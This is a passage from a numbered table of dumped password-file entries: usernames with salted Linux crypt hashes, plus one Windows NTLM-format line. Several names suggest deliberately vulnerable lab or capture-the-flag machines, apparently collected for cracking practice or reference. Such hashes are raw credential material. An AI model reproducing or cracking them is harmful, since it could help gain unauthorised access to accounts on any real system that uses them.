| 67. | `root:$6$L2m6DJwN$p/xas4tCNp19sda4q2ZzGC82Ix7GiEb7xvCbzWCsFHs/eR82G4/YOnni/.L69tpCkOGo5lm0AU7zh9lP5fL6A0:17247:0:99999:7:::` |
| 68. | `root:$6$m20VT7lw$172.XYFP3mb9Fbp/IgxPQJJKDgdOhg34jZD5sxVMIx3dKq.DBwv.mw3HgCmRd0QcN4TCzaUtmx4C5DvZaDioh0:15768:0:99999:7:::` |
| 69. | `root:$6$mqjgcFoM$X/qNpZR6gXPAxdgDjFpaD1yPIqUF5l5ZDANRTKyvcHQwSqSxX5lA7n22kjEkQhSP6Uq7cPaYfzPSmgATM9cwD1:18050:0:99999:7:::` |
| 70. | `root:$6$n.BA4A59$WeIF0ZbaB3VGgAxUZqGHnw01.GhL9oVYYFioh07RpPtBl49YdMahhtbYhxUjanXf/NJXiCHBvrNhdC53P1UX2.:17412:0:99999:7:::` |
| 71. | `root:$6$O4bZf1Ju$0xcLPNyQkVcKT0CajZYBOTz4thlujMRjQ7XuFstUDWwYHKmVmJsDmzGXUwYbU1uqr6jxEvX4XJjSUgiwjPmEp0:17399:0:99999:7:::` |
| 72. | `root:$6$P7ElNgGp$fNzyy4OgqSR1ANJXTgbpzp4U42JXG1qJ55iNV10NVJoX5UWjtckWD0oHmcTOj0lqObyWhFu2y3udHVpHaqYxf.:17238:0:99999:7:::` |
| 73. | `root:$6$PnbVvEMS$OcseJT8lZRrgrW1JBpHJ252SPRxS6Rkh3oVBkrbRBZgHBD1wArL6FcyO5daqaon7waFKwSqbg5fIjFgzUVFMS1:18048:0:99999:7:::` |
| 74. | `root:$6$qAoeosiW$fsOy8H/VKux.9K0T3Ww2D3FPNlO5LAaFytx/6t69Q7LPDSS/nNiP4xzq0Qab.Iz3uy5fYdH3Aw/K5v3ZMhRRH0:16756:0:99999:7:::` |
| 75. | `root:$6$sZyJlUny$OcHP9bd8dO9rAKAlryxUjnUbH0dxgZc2uCePZMUUKSeIdALUulXLQ1iDjoEQpvZI.HTHOHUkCR.m39Xrt3mm91:17097:0:99999:7:::` |
| 76. | `sarah:$6$DoSO7Ycr$2GtM5.8Lfx9Sw8X1fDMF.7zWDoVoy1892nyp0iFsqh5CfmtEROtxmejvQxu0N/8D7X8PQAGKYGl.gUb6/cG210:18010:0:99999:7:::` |
| 77. | `scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk35Nqd0:17504:0:99999:7:::` |
| 78. | `service:$1$cwdqim5m$bw71JTFHNWLjDTmYTNN9j/:17239:0:99999:7:::` |
| 79. | `setup:$6$PR5zOqWk$3MKXMgf6.4bLlznh0R87RB4qaOAcGhbE0Cs8xtUqVPHP8x0553/6aMZnfsZOWKXL0DOqUcVRkfCQN8DvjdZNc1:17086:0:99999:7:::` |
| 80. | `shelly:$6$aYLAoDIC$CJ8f8WSCT6GYmbx7x8z5RfrbTG5mpDkkJkLW097hoiEw3tqei2cE7EcUTYdJTVMSa3PALZeBHjhiFR8Ba5jzf0:17431:0:99999:7:::` |
| 81. | `smeagol:$6$vu8Pfezj$6ldY35ytL8yRd.Gp947FnW3t/WrMZXIL7sqTQS4wuSKeAiYeoYCy7yfS2rBpAPvFCPuo73phXmpOoLsg5REXz.:16695:0:99999:7:::` |
| 82. | `SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::` |
| 83. | `susan:$6$5oSmml7K$0joeavcuzw4qxDJ2LsD1ablUIrFhycVoIXL3rxN/3q2lVpQOKLufta5tqMRIh30Gb32IBp5yZ7XvBR6uX9/SR/:17721:0:99999:7:::` |
| 84. | `sys:$1$NsRwcGHl$euHtoVjd59CxMcIasiTw/.:17239:0:99999:7:::` |
| 85. | `togie:$6$dvOTOc6x$jpt1MVPeBsVlfkhVXl3sv21x2Ls2qle8ouv/JMdR6yNpt2nHHahrh0cyT.8PfVcNqlrAHYFkK2WYdSbxQ4Ivu1:17392:0:99999:7:::` |
| 86. | `tom:$6$ptD/.gN.$n.B/5dODEQFteBwg75Ip9leeaaXSMesGbfZzoVHpZihMHfbWu45UpVZTc6razK1JLZ6817ckZhAJF776Dg/ZJ0:17407:0:99999:7:::` |
| 87. | `user1:$6$9iyn/lCu$UxlOZYhhFSAwJ8DPjlrjrl2Wv.Pz9DahMTfwpwlUC5ybyBGpuHToNIIjTqMLGSh0R2Ch4Ij5gkmP0eEH2RJhZ0:18050:0:99999:7:::` |
| 88. | `user2:$6$7gVE7KgT$ud1VN8OwYCbFveieo4CJQIoMcEgcfKqa24ivRs/MNAmmPeudsz/p3QeCMHj8ULlvSufZmp3TodaWlIFSZCKG5.:18050:0:99999:7:::` |
| 89. | `user3:$6$PaKeECW4$5yMn9UU4YByCj0LP4QWaGt/S1aG0Zs73EOJXh.Rl0ebjpmsBmuGUwTgBamqCCx7qZ0sWJOuzIqn.GM69aaWJO0:18051:0:99999:7:::` |
| 90. | `user4:$6$0pxj6KPl$NA5S/2yN3TTJbPypEnsqYe1PrgbfccHntMggLdU2eM5/23dnosIpmD8sRJwI1PyDFgQXH52kYk.bzc6sAVSWm.:18051:0:99999:7:::` |
| 91. | `user5:$6$wndyaxl9$cOEaymjMiRiljzzaSaFVXD7LFx2OwOxeonEdCW.GszLm77k0d5GpQZzJpcwvufmRndcYatr5ZQESdqbIsOb9n/:18051:0:99999:7:::` |
| 92. | `user6:$6$Y9wYnrUW$ihpBL4g3GswEay/AqgrKzv1n8uKhWiBNlhdKm6DdX7WtDZcUbh/5w/tQELa3LtiyTFwsLsWXubsSCfzRcao1u/:18051:0:99999:7:::` |
| 93. | `user7:$6$5RBuOGFi$eJrQ4/xf2z/3pG43UkkoE35Jb0BIl7AW/umj1Xa7eykmalVKiRKJ4w3vFEOEOtYinnkIRa.89dXtGQXdH.Rdy0:18052:0:99999:7:::` |
| 94. | `user8:$6$fdtulQ7i$G9THW4j6kUy4bXlf7C/0XQtntw123LRVRfIkJ6akDLPHIqB5PJLD4AEyz7wXsEhMc2XC4CqiTxATfb20xWaXP.:18052:0:99999:7:::` |
| 95. | `user:$6$gLVDPSY5$CGHDuEBpkC90vX2xFD9NeJC0O9XfhVj9oFVvL8XbTRpBnt/7WJFpADj0zboPTKTqPbOHafZGUd/exj4OZ1Frc/:15585:0:99999:7:::` |
| 96. | `veronica:$6$ud4650Og$j9dN4Xh6nHTDUQ5LpnrUzl6FdRiapcGvjg0JU2/Wx.G5Q.PFtbv.sa4OJyNnzTVsFEMmgnEZQV1nxGFiy56zS/:17033:0:99999:7:::` |
| 97. | `vulnix:$6$tMOyhDF2$gExhASDVWJqHYn00.A8XLJb.DvE7bdD6NffAno3iY5zEkJwZ4yDTGMrhdVbkMXV1dlBT00DoGFR7oXbtDi3lQ0:15585:0:99999:7:::` |
| 98. | `wpadmin:$6$FtTN/YPC$iidNFmRVpQ1p2kkfoOZ6OzNPqR95DQ/7G10aze2CA2W3ik/sHHyEPaNNY57tMvRDU0/Rs62FEimiKXD2VgEYC1:17096:0:99999:7:::` |
| 99. | `www-data:$6$SYixzIan$P3cvyztSwA1lmILF3kpKcqZpYSDONYwMwplB62RWu1RklKqIGCX1zleXuVwzxjLcpU6bhiW9N03AWkzVUZhms.:17264:0:99999:7:::` |
